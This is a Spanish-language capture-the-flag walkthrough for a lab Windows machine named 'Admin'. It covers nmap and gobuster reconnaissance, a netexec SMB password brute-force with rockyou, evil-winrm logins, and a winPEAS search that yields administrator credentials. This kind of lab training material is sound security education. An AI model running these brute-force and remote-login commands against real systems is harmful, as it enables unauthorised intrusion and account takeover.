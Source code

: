 ```yaml
---
description: '🔍 Dificultad: Fácil'
---
```


# Admin

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.58
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1123).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open 192.168.1.58 --min-rate 5000 -n
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1124).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo, los puertos **80, 135, 139, 445, 5040, 5985, 47001** y varios en el rango **49664-49670** están abiertos. Estos pertenecen a los servicios de **HTTP, Microsoft RPC, NetBIOS-SSN, Microsoft-DS, WinRM** y otros puertos desconocidos, por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p80,135,139,445,5985,47001 -v 192.168.1.58
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (1126).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80.

<figure><img src="../../.gitbook/assets/image (1127).png" alt=""><figcaption></figcaption></figure>

Revisamos directorios.

```bash
gobuster dir -u http://192.168.1.58 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml
```

<figure><img src="../../.gitbook/assets/image (1133).png" alt=""><figcaption></figcaption></figure>

Encontramos interesante **/tasks.txt**. Miramos el contenido.

<figure><img src="../../.gitbook/assets/image (1128).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Encontramos hope como posible usuario. Realizamos fuerza bruta.

```bash
netexec smb 192.168.1.58 -u 'hope' -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding
```

<figure><img src="../../.gitbook/assets/image (1129).png" alt=""><figcaption></figcaption></figure>

Nos conectamos al sistema con **evil-winrm**.

```bash
evil-winrm -i 192.168.1.58 -u "hope" -p "loser"
```

<figure><img src="../../.gitbook/assets/image (1130).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Subo **winPEAS** para una búsqueda a fondo para escalar privilegios.

{% @github-files/github-code-block url="https://github.com/peass-ng" %}

<figure><img src="../../.gitbook/assets/image (1131).png" alt=""><figcaption></figcaption></figure>

Ejecutamos. Encontramos un archivo con la contraseña y usuario.

<figure><img src="../../.gitbook/assets/image (1132).png" alt=""><figcaption></figcaption></figure>

Nos conectamos con **evil-winrm**. Ya somos **root**.

```
evil-winrm -i 192.168.1.58 -u 'administrator' -p 'SuperAdministrator123'
```

<figure><img src="../../.gitbook/assets/image (1134).png" alt=""><figcaption></figcaption></figure>
